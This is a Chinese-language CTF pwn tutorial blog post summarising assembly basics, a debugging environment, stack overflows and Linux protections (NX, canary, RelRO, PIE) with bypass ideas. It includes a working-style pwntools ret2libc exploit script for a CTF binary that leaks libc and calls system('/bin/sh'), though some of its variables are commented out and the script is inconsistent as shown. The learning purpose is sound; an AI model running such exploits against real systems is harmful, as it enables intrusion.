PWN进阶前的总结
关于资料: 所有资料链接我补在文章结尾。
前言
很久没写文章了 这段时间都在搞pwn 主要团队里面没有pwn手 web题又越来越脑洞了 所以就转行打打pwn 感觉安全研究员很又前途啊 哈~ :) 其实也挺好玩的 这段时间关于栈的知识点基本都有了解 也做了很多题 准备进阶堆题了 这篇文章算得上是进阶前的一次总结吧！ 对了 其实很感谢李师兄的 遇见很多坑 特别刚开始的时候 问了一些现在感觉其实很水的问题 当然小白阶段还是很多不懂其实很正常啊 哈哈 不过李师兄还是挺用心的给我讲了些东西 挺感谢他的哈 :) 好了 往下看吧 这篇文章把我从pwn入门到现在的遇见的一些问题都总结一下 也分享给学习pwn的新人吧 大佬误喷 嘿嘿 :)
入门
入门pwn对很多刚刚接触CTF的小白了说还是比较有难度的 不像web 工具和资料比较丰富。
关于汇编: 起步阶段我建议大家还是先看看 汇编 至少能看懂一些基础的指令 王爽著《汇编语言》以及滴水逆向课程第三季其实都挺不错 我也看了一段时间 刚刚开始是有点懵逼 慢慢尝试接受新知识就行 看得快的两个星期左右 知识基本的汇编的知识点基本没有问题。
关于调试和分析: 有了一定的汇编基础支撑 大家就可以结合IDA与GDB来做一些基本调试 通过IDA来看汇编代码 其实会把之前看的汇编的知识点贯通起来 在结合GDB来进行动态调试观察寄存器与内存的变换这个会加深对汇编的理解，这一点很重要 李师兄给我说的调试很重要 一定要多动手 多调试 确实我学到现在真的发现这个很重要特别是作为pwn手 动态调试去追踪数据流这个十分重要 额有点啰嗦了 不过这个是实话 也是给很多小白的提醒吧 对了提一句 起步搭建环境估计也是个很多小白放弃的门槛So, 我就自己搭建了一套做pwn题没有问题的环境 导入即用 附上图片 分享链接在文章结尾。
环境效果如下图：

环境说明:
- 操作系统
- ubuntu 19.04
- 桌面环境
- KDE
- 集成环境
- 调试环境
- gef
- 完整gef插件包
- hyper终端
- pwnhyper插件
- 做题环境
- pwn-tools
- SearchLib
- one_gadget
- 开发环境
- VScodium
- VScodium的python扩展
- VScodium的C++扩展
注：该环境中所有关于python的工具插件包括python本身都为python3版本，未安装python2版本以及python2，若需要请自行安装。
栈溢出的知识点总结
关于栈结构
说到栈溢出不能不谈谈栈结构 以及几个与栈密切相关的指令与寄存器
pop, push call leave ret
pop push 比较简单 无非就是出栈和进栈比较有趣的就是call 说到call简单点描述就是去调用了一个函数 而用我自己的话来说函数在汇编里面的体现就是一段代码片段 在调用call函数时具体体现看下图

这是执行call前的寄存器的值以及栈中的数据 这里我们主要注意esp指向的栈地址

这是执行call后的寄存器的值以及栈中的数据 对比上图我们不难发现esp上走了一行 其实就是call的作用将call下一行指令的地址先压入栈在修改eip寄存器的值为call 后面的操作数 其实就是函数的第一条指令的地址同时我们观察到基本上每个函数的代码片段开头都有类似的指令 基本相同 其实就是在给准备要执行的函数代码片段分配一段栈空间来操作

关于函数传参常规模式下32位参数从左到右依次入栈 printf除外 printf函数是从右到左所以记得当时看看入门逆向的时候去吾爱上看到有大佬说od里面去找main函数时 看见三个push一个call就是main函数 当时很懵逼 其实现在想起来真的很正常64位新增加几个寄存器所以正常情况下通常顺序是rdi, rsi, rdx, rcx, r8, r9, 栈 可以简记为: dsxc-89
关于栈溢出
其实栈溢出可以一句话总结 就是覆盖函数返回地址来劫持程序逻辑去执行，在pwn题中的体现就是
劫持程序去执行system(command)
system有以下几种出现方式
- 程序本身有代码执行system()
- 有系统调用通过 int 0x80来执行系统调用
- 去查找Libc
command有以下几种出现方式
- 程序本身代码含有 /bin/bash、/bin/sh、sh
- 自己写入/bin/sh 如果可写空间不够 sh也行
我们下面具体谈谈怎么通过栈溢出劫持程序逻辑
先看一个例子就是之前的程序 我将就继续往下看几行

首先我们看一下我指出来的位置,这个也解释了之前函数从左到右依次入栈的情况 我们回忆一下read函数的原型
read(int fd, void *buf, size_t count);返回值一般是读取到的字节数 顺便说一句函数返回值一般存放在eax里面所以在汇编里面去看没有很明显的体现返回一个值
fd就是文件指针 buf就是存放读取到的数据的地方 也就是我们常说的缓冲区所以栈溢出有时也称为缓冲区溢出 count就是如果可以一直读取那么最大可以读取多少字节
我们在回来看看图片中的汇编指令 对应的 传入了一个0，一个在ebp-0x88位置的buf变量 最大可以读取0x100 所以是不是就发现了可读取的最大字节数超过了0x88 所以我们就可以一直输入0x88个字节先填满栈，也就是常说的padding缓冲区后面再写入需要修改的返回地址 因为返回地址就是rbp下面一行 如图：

这里大家可能想嗯那么返回地址我就在填充0x88个字节后面直接写就行了，其实不一定 如图:

在红箭头执行的方向该函数代码不是直接ret出去，而是先leave在ret leave指令等同于mov esp ebp; pop ebp;而ret指令相当于pop eip;所以这里我们需要
填充0x88+4后再写入地址 +4字节就是这么来的 当初我在这个位置被坑了好久就是搞不明白为啥要+4直到师兄说亲自去调试后我注意到了这个位置才明白+4是这么来的同理如果在64位程序则是+8当然有可能有变化，但我们多去调试，多去实验总是能发现问题并解决问题 哈 :)
以这个题为例子 解决一下拖入IDA方便查看整个程序的主体框架节约篇幅我直接查看了导入函数部分如图：

我们并没有发现system 但这个题比较简单给了libc，所以我们有两种思路 两种思路都需要先泄露libc的实际地址
- 直接one_gadget得到get_shell的地址
- 通过SearchLibc包了获取libc来get_shell
因为正常难度题一般不太可能给libc 所以我通过第二种方式来解 这里直接给出exp:
from pwn import * # libc = ELF("./libc_32.so.6") elf = ELF("./level3") io = process("./level3") # io = remote("111.198.29.45", 53246) # write_plt = elf.plt[b'write'] write_got = elf.got[b'write'] main_addr = elf.symbols[b'main'] read_addr = elf.plt[b'read'] # log.info("write_plt: {}".format(hex(write_plt))) log.info("write_got: {}".format(hex(write_got))) log.info("main_addr: {}".format(hex(main_addr))) log.info("read_addr: {}".format(hex(read_addr))) # # leak libc payload = b'a'*(0x88+4) payload += pack(write_plt) payload += pack(main_addr) payload += pack(1) payload += pack(write_got) payload += pack(4) # # io.recvuntil("Input:\n") sleep(0.2) io.sendline(payload) write_addr = unpack(io.recv()[:4]) io.recv() log.info("write_addr: {}".format(hex(write_addr))) libc_base = write_addr - 0x000d43c0 log.info("libc_base_addr: {}".format(hex(libc_base))) system_addr = libc_base + libc.symbols[b'system'] log.info("system_addr: {}".format(hex(system_addr))) binsh_addr = libc_base+0x0015902B #/bin/sh log.info("binsh_addr: {}".format(hex(binsh_addr))) # # attack payload = b'a'*(0x88+4) payload += pack(system_addr) payload += pack(main_addr) payload += pack(binsh_addr) io.sendline(payload) io.interactive()
关于Linux下的几种保护机制以及在栈溢出环境下的常见绕过姿势
在linux下的保护机制一般有如下几种:
RelROCanaryNXPIEFortify
在gef中有checksec插件指令可以查看目标程序的保护机制开启情况，如图：

No-Execute
首先我们先介绍NX, NX的全称是 No Execute 就是不能执行的意思 那么是什么不可以执行呢？ 说到这里我觉得我们可以先简单谈谈ELF文件结构(这个文件结构在下面部分我会详细说明)ELF文件，其实就是我们常说的可执行文件(这里指Linux平台，windows平台主要是PE，后面我会详细解释) 学过编程我应该都知道编译会把我们写好的源代码编译成
目标文件, 在经过编译器链接后就生成了可执行文件可执行文件一般由以下几个部分组成：
- Header // 文件头
- Program Header Table 程序头表
- Section Header Table 节头表
- Section 节
可执行文件能够运行 实际上就是计算机将可执行文件加载到内存里面去(注: 这里存在一个映射关系，后面有机会在详细介绍)而我们写好的程序代码实际上可以抽象成两部分
- 指令
- 数据
我们所有指令 会集中放在一个内存的一个地(
.text), 数据也会集中的放在另一个地方(.data,.rodata,.bss)而eip寄存器主要数据就在于.text的位置 因为它的主要作用就是指向下一条指令的地址
NX的主要作用就是.text的内存区域只有可读可执行的权限(r, x), 而其他区域没有可执行权限，换句话说就是能读能执行的地方没有可写入权限，能写入的地方没有可执行权限，简而言之就是权限分离。
突破NX的攻击技术目前主要就是ROP， 虽然NX成功将权限从栈上分离出去，但是在.text段 也就是代码段中必定会存在小片段(专业术语是
gadgets)，可以执行，而gadgets实际上就是以ret指令结尾的序列，通过这些指令序列我们就可以利用栈溢出来劫持整个程序的流程，来执行我们想要执行的代码。
ROP攻击一般需要满足以下条件:
- 程序存在溢出，且能覆盖返回地址。
- 可以找到满足条件的ROPgadgets 以及相应的gadgets的地址，如果开启随机化那么就需要获取动态地址
一般我们可以通过 ROPgadgets工具来查找gadgets
在我集成的环境中已经给gef集成了ropper插件可以直接使用，效果如图:

还有如果我们拿到了题目使用的Libc那么我们就可以通过one_gadget 直接获取getshell的地址 但可能有利用条件，效果如图：

为了节约篇幅，关于高级的ROP的高级技术请查看CTF-Wiki-ROP
Canary
了解NX我们再来看看
Canary，这种保护机制就像它名字一样金丝雀(据说来自于很久以前矿工们用这种鸟来测试矿井是否有毒)，借用CTF-Wiki的图片来描述

图片上这个就是canary的示意图
canary实际上就是每次程序启动时在图示位置生成一道随机数，当函数执行完成时都会先检测这个随时是否改变，如果改变说明程序可能发生溢出了，那么就强制退出程序，不继续往下执行，在IDA里面我们可能要看得直观些

图示位置就是在对canary进行判断
在gdb中canary就长这个样
从图中我们可以发现两个问题
- 按照wiki的图示64位上canary在rbp-8的位置上，那么在32位应该在ebp-4的位置上啊，其实不然，我们一定要亲手去调试，去观察，才能发现问题，不能凭空猜想
- canary的末尾都是00，对正因为我们在图里看见是末尾为00，才能防止它被不小心读出来，这特意设计的。

那么我们怎么突破这个canary的保护机制呢？
实际在栈溢出阶段很简单，只需要先溢出覆盖canary的最后两个00使其不被截断，在通过输出函数来打印出来，我们就能成功泄露canary，注意第一次用来泄露canary的payload我们应该以程序起始地址来结束，这样可以跳到程序最开始的地方，一是可以刷新栈空间，二是可以再次触发漏洞来写入新的paylaod，这一点很重要，我们泄露canary的目的就是为了第二次触发溢出去修改返回地址时在把canary放回他应原地，放在程序直接退出，这个才是我们主要目的，其实到后期还有几种可以突破canary的姿势，但是我们需要一些关于堆的姿势，这个我后期做总结时会写，有兴趣的可以查看CTF-Wiki-Canary
RelRO
这个保护机制主要目的就是降低可写区域，但网上查到说只有全开才能缓解覆盖GOT表攻击（其实不一定，能不能覆盖GOT表，还是得需要看GOT表有没有可写权限）。
这里可以顺便说一下覆盖GOT表攻击，其实这个比较简单，但我们得先了解动态链接库与延迟绑定技术的原理。
动态链接库也称为动态共享库，是为了静态库的缺陷，静态库就相当于直接把库函数的源码与程序的源码编译到一起，每次更新程序，部署程序都需要重新编译一整套源码，为了解决这个问题，提出了动态共享库的概念，意思就是把一些公共函数，或者可以从源码中提取的模块化的内容，放到一边，单独编译，主程序需要用时，在载入程序。
延迟绑定技术，是为了弥补使用动态链接库时程序性能的缺陷，因为在使用动态链接库时，每次程序调用库里面的函数，都需要通过GOT表进行重定位，这样会减弱程序的性能，所以提出了延迟绑定的概念，简单来说就是当程序第一次使用到的函数才进行重定位后绑定。大致流程如图所示：

从图中我们也可以出实际上重定位与绑定函数通过GOT表交给了
_dl_runtime_resolve这个函数，这里实际上又有一种攻击手段可以同时绕过NX与PIE
PIE
全称为空间地址随机化，这个其实没多少解释的，就是地址随机化，但注意，Wiki上说也仅仅只是针对中间部分的地址随机化，在我们泄露libc时，完全可以只需要泄露后面12位来查询libc
关于文件结构
啊 写道这里快写不下去了 感觉内容太多 不是一次能讲得完的
后面更新链接补在上面